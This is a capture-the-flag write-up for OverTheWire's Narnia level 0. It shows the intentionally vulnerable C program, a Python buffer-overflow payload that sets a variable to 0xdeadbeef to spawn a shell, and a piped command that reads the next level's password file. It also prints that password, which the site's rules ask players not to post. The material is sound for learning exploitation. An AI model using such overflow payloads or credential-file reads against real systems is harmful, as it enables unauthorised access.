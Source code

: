 ```bash
┏━•  ~
┗  ssh narnia0@narnia.labs.overthewire.org -p 2226
```
This is a OverTheWire game server. More information on http://www.overthewire.org/wargames

narnia0@narnia.labs.overthewire.org's password:
Linux narnia 4.18.12 x86_64 GNU/Linux
,----..            ,----,          .---.
/   /   \         ,/   .`|         /. ./|
/   .     :      ,`   .'  :     .--'.  ' ;
.   /   ;.  \   ;    ;     /    /__./ \ : |
.   ;   /  ` ; .'___,/    ,' .--'.  '   \' .
;   |  ; \ ; | |    :     | /___/ \ |    ' '
|   :  | ; | ' ;    |.';  ; ;   \  \;      :
.   |  ' ' ' : `----'  |  |  \   ;  `      |
'   ;  \; /  |     '   :  ;   .   \    .\  ;
\   \  ',  /      |   |  '    \   \   ' \ |
;   :    /       '   :  |     :   '  |--"
\   \ .'        ;   |.'       \   \ ;
www. `---` ver     '---' he       '---" ire.org
 Welcome to OverTheWire!                                                                                                                                                                                                                                                                                                                             If you find any problems, please report them to Steven or morla on                                                                                                        irc.overthewire.org.

--[ Playing the games ]--

  This machine might hold several wargames.
  If you are playing "somegame", then:

    * USERNAMES are somegame0, somegame1, ...
    * Most LEVELS are stored in /somegame/.
    * PASSWORDS for each level are stored in /etc/somegame_pass/.

  Write-access to homedirectories is disabled. It is advised to create a
  working directory with a hard-to-guess name in /tmp/.  You can use the
  command "mktemp -d" in order to generate a random and hard to guess
  directory in /tmp/.  Read-access to both /tmp/ and /proc/ is disabled
  so that users can not snoop on eachother. Files and directories with
  easily guessable or short names will be periodically deleted!

  Please play nice:

    * don't leave orphan processes running
    * don't leave exploit-files laying around
    * don't annoy other players
    * don't post passwords or spoilers
    * again, DONT POST SPOILERS!
      This includes writeups of your solution on your blog or website!

--[ Tips ]--

  This machine has a 64bit processor and many security-features enabled
  by default, although ASLR has been switched off.  The following
  compiler flags might be interesting:

    -m32                    compile for 32bit
    -fno-stack-protector    disable ProPolice
    -Wl,-z,norelro          disable relro

  In addition, the execstack tool can be used to flag the stack as
  executable on ELF binaries.

  Finally, network-access is limited for most levels by a local
  firewall.

--[ Tools ]--

 For your convenience we have installed a few usefull tools which you can find
 in the following locations:

    * pwndbg (https://github.com/pwndbg/pwndbg) in /usr/local/pwndbg/
    * peda (https://github.com/longld/peda.git) in /usr/local/peda/
    * gdbinit (https://github.com/gdbinit/Gdbinit) in /usr/local/gdbinit/
    * pwntools (https://github.com/Gallopsled/pwntools)
    * radare2 (http://www.radare.org/)
    * checksec.sh (http://www.trapkit.de/tools/checksec.html) in /usr/local/bin/checksec.sh

--[ More information ]--

  For more information regarding individual wargames, visit
  http://www.overthewire.org/wargames/

  For support, questions or comments, contact us through IRC on
  irc.overthewire.org #wargames.

  Enjoy your stay!

```bash
narnia0@narnia:~$ cat /narnia/narnia0.c
```
```c                                                                                                                                /*
   This program is free software; you can redistribute it and/or modify
   it under the terms of the GNU General Public License as published by
   the Free Software Foundation; either version 2 of the License, or
   (at your option) any later version.

   This program is distributed in the hope that it will be useful,
   but WITHOUT ANY WARRANTY; without even the implied warranty of
   MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
   GNU General Public License for more details.

   You should have received a copy of the GNU General Public License
   along with this program; if not, write to the Free Software
   Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
   */
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }
    
    return 0;
}```
```bash
narnia0@narnia:~$ python -c 'print "A"*20 + "\xef\xbe\xad\xde"' | /narnia/narnia0
```
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
```bash
narnia0@narnia:~$ (python -c 'print "A"*20 + "\xef\xbe\xad\xde"'; echo 'cat /etc/narnia_pass/narnia1') | /narnia/narnia0
```
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
`efeidiedae`  <- password for narnia1           